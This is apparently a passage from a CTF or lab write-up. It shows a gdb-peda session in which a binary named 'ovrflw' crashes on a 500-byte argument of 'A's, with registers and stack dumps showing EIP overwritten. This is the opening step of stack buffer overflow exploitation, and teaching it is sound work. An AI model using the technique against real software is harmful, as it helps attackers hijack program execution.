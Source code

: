```bash
gdb-peda$ r $(python -c 'print "A"*500')                                                                                         
Starting program: /usr/local/bin/ovrflw $(python -c 'print "A"*500')                                                             
                                                                                                                                 
Program received signal SIGSEGV, Segmentation fault.                                                                             
[----------------------------------registers-----------------------------------]                                                 
EAX: 0x0 
EBX: 0xb7756000 --> 0x1abda8 
ECX: 0xbfc83e70 ('A' <repeats 13 times>)
EDX: 0xbfc82a43 ('A' <repeats 13 times>)
ESI: 0x0 
EDI: 0x0 
EBP: 0x41414141 ('AAAA')
ESP: 0xbfc828d0 ('A' <repeats 200 times>...)
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xbfc828d0 ('A' <repeats 200 times>...)
0004| 0xbfc828d4 ('A' <repeats 200 times>...)
0008| 0xbfc828d8 ('A' <repeats 200 times>...)
0012| 0xbfc828dc ('A' <repeats 200 times>...)
0016| 0xbfc828e0 ('A' <repeats 200 times>...)
0020| 0xbfc828e4 ('A' <repeats 200 times>...)
0024| 0xbfc828e8 ('A' <repeats 200 times>...)
0028| 0xbfc828ec ('A' <repeats 200 times>...)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
gdb-peda$
gdb-peda$ i r
eax            0x0      0x0
ecx            0xbf9c4e70       0xbf9c4e70
edx            0xbf9c3bf3       0xbf9c3bf3
ebx            0xb76f0000       0xb76f0000
esp            0xbf9c3a80       0xbf9c3a80
ebp            0x41414141       0x41414141
esi            0x0      0x0
edi            0x0      0x0
eip            0x41414141       0x41414141
eflags         0x10202  [ IF RF ]
cs             0x73     0x73
ss             0x7b     0x7b
ds             0x7b     0x7b
es             0x7b     0x7b
fs             0x0      0x0
gs             0x33     0x33
gdb-peda$
```
